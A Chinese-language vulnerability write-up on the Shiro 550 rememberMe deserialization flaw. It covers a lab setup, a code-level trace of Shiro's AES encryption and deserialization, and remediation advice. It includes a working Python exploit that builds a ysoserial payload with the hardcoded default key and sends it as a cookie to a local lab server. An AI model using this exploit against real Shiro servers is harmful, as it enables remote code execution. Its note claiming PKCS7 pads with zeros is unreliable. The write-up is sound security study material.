



## Shiro 550反序列化漏洞

**Author:Cinderella**

### 前言

Shiro 550 反序列化漏洞存在版本：shiro <1.2.4，产生原因是因为shiro接受了Cookie里面`rememberMe`的值，然后去进行Base64解密后，再使用aes密钥解密后的数据，进行反序列化。

### 环境构建

我个人用的是自己搭建的SpringBoot项目，如果自己搭建不了的话，可以参考下面，我个人也实践了一遍

下载https://codeload.github.com/apache/shiro/zip/shiro-root-1.2.4，导入IDEA

重点在/samples/web的pom.xml两点

```xml
        <dependency>
            <groupId>javax.servlet</groupId>
            <artifactId>jstl</artifactId>
            //这里要修改为1.2版本
            <version>1.2</version>
            <scope>runtime</scope>
        </dependency>
```

增加序列化组件，这里就有一个问题为什么shiro自带了`commons-collections:3.2.1`还要去手工配置一个`commons-collections:4.0`，我们稍后分析

```xml
        <dependency>
            <groupId>org.apache.commons</groupId>
            <artifactId>commons-collections4</artifactId>
            <version>4.0</version>
        </dependency>
```

导入IDEA，这里面有很多war包，选择samples-web部署配置如下：


部署成功如下：


### 漏洞利用

这次漏洞利用要求两点

1. 需要开启Remember Me，这样才能触发到解密的过程
2. 需要知道key，这样能够正确解密，进入反序列化过程

```python
import base64
import uuid
import subprocess
import requests
from Crypto.Cipher import AES

def encode_rememberme(command):
    # 这里使用CommonsCollections2模块
    popen = subprocess.Popen(['java', '-jar', 'ysoserial.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
    # 明文需要按一定长度对齐，叫做块大小BlockSize 这个块大小是 block_size = 16 字节
    BS = AES.block_size
    # 按照加密规则按一定长度对齐,如果不够要要做填充对齐
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    # 泄露的key
    key = "kPH+bIxk5D2deZiIxcaaaA=="
    # AES的CBC加密模式
    mode = AES.MODE_CBC
    # 使用uuid4基于随机数模块生成16字节的 iv向量
    iv = uuid.uuid4().bytes
    # 实例化一个加密方式为上述的对象
    encryptor = AES.new(base64.b64decode(key), mode, iv)
    # 用pad函数去处理yso的命令输出，生成的序列化数据
    file_body = pad(popen.stdout.read())
    # iv 与 （序列化的AES加密后的数据）拼接， 最终输出生成rememberMe参数
    base64_rememberMe_value = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_rememberMe_value


if __name__ == '__main__':
    # cc2的exp
    payload = encode_rememberme('open -a Calculator')
    print("rememberMe={}".format(payload.decode()))
    cookie = {
        "rememberMe": payload.decode()
    }
    requests.get(url="http://127.0.0.1:8000/", cookies=cookie)
```


### Why增加利用链

为什么shiro自带了`commons-collections:3.2.1`还要去手工配置一个`commons-collections:4.0`

其实shiro中重写了`ObjectInputStream`类的`resolveClass`函数，`ObjectInputStream`的`resolveClass`方法用的是`Class.forName`类获取当前描述器所指代的类的Class对象。而重写后的`resolveClass`方法，采用的是`ClassUtils.forName`。

org.apache.shiro.util.ClassUtils#forName


在传参的地方如果传入一个`Transform`数组的参数，会报错。后者并不支持传入数组类型。

如果要调用原生的`commons-collections:3.2.1`执行利用，可以重新构造利用链,这里为了方便复现，直接引入ysoserial可以直接生成的利用链。

### 漏洞分析

#### 加密过程

##### 设置默认Key

org.apache.shiro.mgt.AbstractRememberMeManager#AbstractRememberMeManager，在启动过程中，会先设置默认的Key


启动完成后，设置rememberMe输入账号密码登录，登录成功后会调用org.apache.shiro.mgt.AbstractRememberMeManager#onSuccessfulLogin


##### RememberMe处理

org.apache.shiro.mgt.AbstractRememberMeManager#isRememberMe,判断是否设置`Remember Me`，如果没有就log输出一段字符


如果设置了`Remember Me`，进入`rememberIdentity`，org.apache.shiro.mgt.AbstractRememberMeManager#rememberIdentity(org.apache.shiro.subject.Subject, org.apache.shiro.authc.AuthenticationToken, org.apache.shiro.authc.AuthenticationInfo)



这里创建`PrincipalCollection`对象,包含登录信息



直接进入org.apache.shiro.mgt.AbstractRememberMeManager#rememberIdentity(org.apache.shiro.subject.Subject, org.apache.shiro.subject.PrincipalCollection)


进入`convertPrincipalsToBytes`，org.apache.shiro.mgt.AbstractRememberMeManager#convertPrincipalsToBytes


继续跟进到org.apache.shiro.io.DefaultSerializer#deserialize，返回一个序列化的数组


继续往下到org.apache.shiro.mgt.AbstractRememberMeManager#encrypt，这里`getCipherService`是获取加密模式


`getEncryptionCipherKey`获取之前设置的key,org.apache.shiro.mgt.AbstractRememberMeManager#getEncryptionCipherKey


这里跟进到`encrypt`,org.apache.shiro.mgt.AbstractRememberMeManager#encrypt


继续跟进到红框，org.apache.shiro.crypto.JcaCipherService#encrypt(byte[], byte[])



##### ivBytes构建

继续跟进`generateInitializationVector`，构建ivBytes，调用一次后进入org.apache.shiro.crypto.JcaCipherService#generateInitializationVector


进入`ensureSecureRandom`，org.apache.shiro.crypto.JcaCipherService#ensureSecureRandom


跟进到`getDefaultSecureRandom`，org.apache.shiro.crypto.JcaCipherService#getDefaultSecureRandom


进入`getInstance`，java.security.SecureRandom#getInstance(java.lang.String)


java.security.SecureRandom#SecureRandom(java.security.SecureRandomSpi, java.security.Provider, java.lang.String)


继续返回前面，org.apache.shiro.crypto.JcaCipherService#generateInitializationVector，这里创建了一个16位的byte数组


最后得到这个ivBytes值进行返回。

**注：**

- 某些加密算法要求明文需要按一定长度对齐，叫做块大小(BlockSize)，我们这次就是16字节，那么对于一段任意的数据，加密前需要对最后一个块填充到16 字节，解密后需要删除掉填充的数据。
- AES中有三种填充模式(PKCS7Padding/PKCS5Padding/ZeroPadding)
- PKCS7Padding跟PKCS5Padding的区别就在于数据填充方式，PKCS7Padding是缺几个字节就补几个字节的0，而PKCS5Padding是缺几个字节就补充几个字节的几，好比缺6个字节，就补充6个字节

##### 继续加密

org.apache.shiro.crypto.JcaCipherService#encrypt(byte[], byte[])


进入`encrypt`，org.apache.shiro.crypto.JcaCipherService#encrypt(byte[], byte[], byte[], boolean)，这里output大小是加密后数据的长度加上iv这个值的长度。


##### 设置Remember Me

完成加密过后，返回到org.apache.shiro.mgt.AbstractRememberMeManager#rememberIdentity(org.apache.shiro.subject.Subject, org.apache.shiro.subject.PrincipalCollection)，此时bytes已经是AES加密后的数据了


返回org.apache.shiro.web.mgt.CookieRememberMeManager#rememberSerializedIdentity


#### 解密过程

##### 找入口

在加密算法里面同样有解密算法，org.apache.shiro.mgt.AbstractRememberMeManager#decrypt


跟进查看调用


可以看到最主要调用的就是`getRememberedPrincipals`，我们在这里添加断点，进行调试

org.apache.shiro.mgt.AbstractRememberMeManager#getRememberedPrincipals


##### 读取Remember Me

org.apache.shiro.mgt.AbstractRememberMeManager#getRememberedPrincipals


进入`getRememberedSerializedIdentity`，org.apache.shiro.web.mgt.CookieRememberMeManager#getRememberedSerializedIdentity，返回`RememberMe`


##### Remember Me解密

返回到org.apache.shiro.mgt.AbstractRememberMeManager#getRememberedPrincipals


进入`convertBytesToPrincipals`，org.apache.shiro.mgt.AbstractRememberMeManager#convertBytesToPrincipals


跟进到`decrypt`，org.apache.shiro.mgt.AbstractRememberMeManager#decrypt


继续跟进`decrypt`，org.apache.shiro.crypto.JcaCipherService#decrypt(byte[], byte[])，其实是和加密对应的解密，返回的数据就是解密后的数据了


继续跟进

org.apache.shiro.crypto.JcaCipherService#decrypt(byte[], byte[], byte[])，这里就会用key进行一个解密工作


##### 返回数据

org.apache.shiro.mgt.AbstractRememberMeManager#getRememberedPrincipals，可以看到已经是完全解密了的principals了


#### 漏洞触发点

经过加解密过程，始终没有提到漏洞触发点，其实加密过程有一个重要的序列化过程，而解密过程有一个重要的反序列化过程，漏洞触发只能在这里

org.apache.shiro.mgt.AbstractRememberMeManager#convertBytesToPrincipals，我们返回的return就有的反序列化操作，我们跟进看下


org.apache.shiro.io.DefaultSerializer#deserialize，可以直接看到`readObject()`方法，触发点很明显在这里


### 加密解密流程梳理

#### 加密

- 使用的 AES/CBC/PKCS5Padding 模式
- random = this.ensureSecureRandom(); 使用随机数生成 ivBytes
- key为预留的那个硬编码
- encrypt(plaintext, key, ivBytes, generate) 生成
- 最后base64加密，放入cookie中

#### 解密

- 使用的 AES/CBC/PKCS5Padding 模式 ，所以Key要求是为16位的，key为预留的那个硬编码
- base64解密cookie 中 rememberMe的值
- 根据解密 vi 是 秘文的前16位
- iv即为rememberMe解码后的前16个字节
- 有了key 和 vi 就可以解密到反序列化的数据了

### 漏洞修复

官方将Shiro默认Key的方式修改为随机生成Key的方式，建议升级到Shiro到最新版本

### 参考

[Shiro 550 反序列化漏洞 详细分析+poc编写 (zeo.cool)](https://zeo.cool/2020/09/03/Shiro 550 反序列化漏洞 详细分析+poc编写/)

[Java安全之Shiro 550反序列化漏洞分析 - 安全客，安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/225442#h2-2)


